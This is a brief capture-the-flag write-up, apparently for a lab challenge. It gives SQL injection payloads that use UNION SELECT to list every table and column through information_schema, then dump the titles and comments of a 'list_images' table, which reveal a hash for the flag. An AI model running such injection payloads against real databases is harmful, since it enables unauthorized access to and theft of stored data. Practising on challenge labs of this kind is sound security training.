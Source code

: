 first use this to get all collumns of all tables:
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns

and look for "images" (Ctrl+F)

Then let's get comment and title from table "list_images"
1 AND 1=2 UNION SELECT title, comment FROM list_images

We can see one telling us to sha256 this md5 encoded string : 1928e8083cf461a51303633093573c46
This is our flag !